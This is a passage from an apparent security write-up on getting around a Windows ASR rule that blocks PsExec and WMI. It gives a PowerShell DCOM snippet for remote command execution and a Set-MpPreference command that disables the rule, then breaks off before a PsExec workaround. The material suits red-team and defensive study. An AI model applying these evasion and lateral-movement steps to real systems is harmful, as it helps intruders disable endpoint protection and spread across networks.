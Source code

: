 #### Basic Test of the Rule:

#### When running:

- `wmic process call create "cmd.exe"` → **Blocked**
- `psexec -s -i cmd.exe` → **Blocked**

(ASR correctly blocks simple WMI and PsExec commands.)

#### Lateral Movement Workaround (Bypassing the Rule)

Although PsExec and WMI were blocked, **attackers still have ways to move laterally** across machines:

#### Technique 1: Using DCOM and ShellBrowserWindow

> ***DCOM* (Distributed Component Object Model) lets programs remotely control Windows components (like Explorer).**

we can **spawn remote commands** **without WMI or PsExec**, using DCOM objects directly:

```
$com = [Type]::GetTypeFromCLSID('c08afd90-f2a1-11d1-8455-00a0c91f3880', '192.168.5.12')
$obj = [System.Activator]::CreateInstance($com)
$obj.Document.Application.ShellExecute("calc.exe")
```

**Result:**

- `calc.exe` will run remotely on `192.168.5.12`.
- If Windows Firewall is active, the user might see a prompt asking to allow **“explorer.exe”**.

Successfully **bypasses the ASR rule**, because it’s not WMI or PsExec.

* * *

#### Technique 2: Turning off ASR rules remotely

If the attacker has **admin rights** on the remote machine:

- They can **disable ASR** using **remote PowerShell**:

Example command:

```
Set-MpPreference -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c -AttackSurfaceReductionRules_Actions Disabled
```

**Result:**

- The ASR rule is now disabled on the target machine.
- The attacker can freely use WMI, PsExec, or anything else.

[Explained Here](https://www.fortynorthsecurity.com/windows-asr-rules-reenabling-wmi-when-blocked/)

#### Bypassing PsExec Restrictions (Getting SYSTEM Privileges Anyway)

Even though **PsExec** is “blocked” directly by ASR when running with SYSTEM privileges, attackers found a workaround:
